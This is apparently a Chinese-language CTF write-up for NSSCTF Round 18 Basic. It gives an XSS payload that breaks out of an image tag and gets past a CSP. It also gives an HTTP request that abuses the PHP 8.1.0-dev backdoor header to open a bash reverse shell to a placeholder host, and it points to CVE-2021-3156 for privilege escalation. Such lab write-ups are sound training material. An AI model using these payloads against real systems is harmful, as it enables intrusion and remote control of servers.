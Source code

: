 # NSSCTF Round 18 Basic

  

&lt;!--more--&gt;  
## 门酱想玩什么呢？  
右键源代码发现`nssctfroundSpring.php`  
```php  
&lt;?php    
highlight_file(__FILE__);    
//部分关键代码    
$contentLines = explode(&#34; &#34;, $comment[&#39;content&#39;]);    
if (preg_match(&#39;/^https?:\/\/\S&#43;$/&#39;, $contentLines[0])) {    
    if (preg_match(&#39;/^https?:\/\/[^\/]&#43;\/\S&#43;\.png$/&#39;, $contentLines[0], $matches) &amp;&amp; end($contentLines) === &#39;/png&#39;) {        $urlParts = parse_url($matches[0]);    
        if ($urlParts !== false) {    
            echo &#39;&lt;img class=&#34;content&#34; src=&#34;&#39; . $matches[0] . &#39;&#34;&gt;&#39;;            //.......        }        //......    }    //......    
}  
```  
很明显存在`xss`  
通过查看评论区得知需要在门酱处访问元梦之星官网的`url`，在发表评论处正是上面得到的代码，于是利用 xss 还需要绕过`CSP`  
`Content-Security-Policy: script-src &#39;self&#39; &#39;unsafe-inline&#39;;`  
利用`window.location`  
构造`poc`  
`https://&#34;&gt;&lt;script&gt;window.location=&#34;https://ymzx.qq.com/&#34;&lt;/script&gt;.png /png`  
得到
`http://node2.anna.nssctf.cn:28764/words/?title=MQ==&amp;content=aHR0cHMlM0ElMkYlMkYlMjIlM0UlM0NzY3JpcHQlM0V3aW5kb3cubG9jYXRpb24lM0QlMjJodHRwcyUzQSUyRiUyRnltengucXEuY29tJTJGJTIyJTNDJTJGc2NyaXB0JTNFLnBuZyUyMCUyRnBuZw==`  
在门酱处插入得到`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402141654151.png)
## Becomeroot  
8.1.0-dev后门漏洞  
```http  
GET / HTTP/1.1  
Host: node1.anna.nssctf.cn:28073  
Accept-Encoding: gzip, deflate  
Accept: */*  
Accept-Language: en  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36  
User-Agentt: zerodiumsystem(&#34;bash -c &#39;bash -i &gt;&amp; /dev/tcp/vps/port 0&gt;&amp;1&#39;&#34;);  
Connection: close  
```  
利用工具进行扫描提权漏洞  
https://github.com/The-Z-Labs/linux-exploit-suggester  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402141755588.png)
利用`CVE-2021-3156`提权  
https://github.com/Rvn0xsy/CVE-2021-3156-plus?tab=readme-ov-file  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402141752513.png)

---

> Author: N1Rvana  
> URL: http://localhost:1313/nssctf-round-18-basic/  


